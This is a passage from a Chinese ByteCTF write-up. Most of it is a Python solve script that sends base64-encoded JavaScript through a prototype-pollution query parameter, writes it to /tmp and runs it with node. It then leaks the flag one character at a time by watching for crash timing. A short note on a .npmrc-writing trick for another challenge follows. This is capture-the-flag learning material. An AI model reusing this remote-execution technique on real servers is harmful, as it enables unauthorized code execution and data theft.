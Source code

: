 ```python
        }}
    }});
'''


def remote_exec(command):
    params = "echo {} | base64 -d > /tmp/hhh.js;node /tmp/hhh.js".format(base64.b64encode(t.encode()).replace(b'\n',b'').decode())
    # print(params)
    requests.get(url +"?ByteCTF[__proto__][length]=100000&ByteCTF[toString]=&ByteCTF[][a]&backdoor="+parse.quote(params))

if __name__ == "__main__":
    # 例如搜索出了出了第四位字符 那么第三位大概率是正确的 
    # 需要不少人工因素 有时候会顿一下多看几次都在那里停顿大概率就是了 因为node重启太快了 多看几遍可以排除下网络波动因素
    result = ""
    result = "by"
    result = "bytectf{50579195da002fa989432cbc1a83e38f5d3765122d9a7d4d767f99a61fa58f22"
    for i in range(len(result), 10000000):
        find = False
        # for char in string.ascii_letters:
        for char in string.ascii_letters + "{_- }" + string.digits:
            print(i, len(result), char, result + char)
            t = template.format(len(result), char, result)
            # print(t)

            try:
                remote_exec(t)
            except:
                continue

            try:
                requests.get(url, timeout=1)
                requests.get(url, timeout=1)
                requests.get(url, timeout=1)
            except:
                find = True
                result += char
                print(result)
                sleep(5)
                break

        if not find:
            result += ""

# bytectf{50579195da002fa989432cbc1a83e38f5d3765122d9a7d4d767f99a61fa58f22}
```

## easy_extract
这是初赛的`Node`题型，当时没搞出来，这是决赛之后看到了上边的`Node`题目所以也记录了一下。当时搞出了文件写入，然后没有多少地方有写权限，没想到利用写`.npmrc`文件并重启搞他。下面的内容来自于官方的`Writeup`，仅作记录，详情链接在参考中。
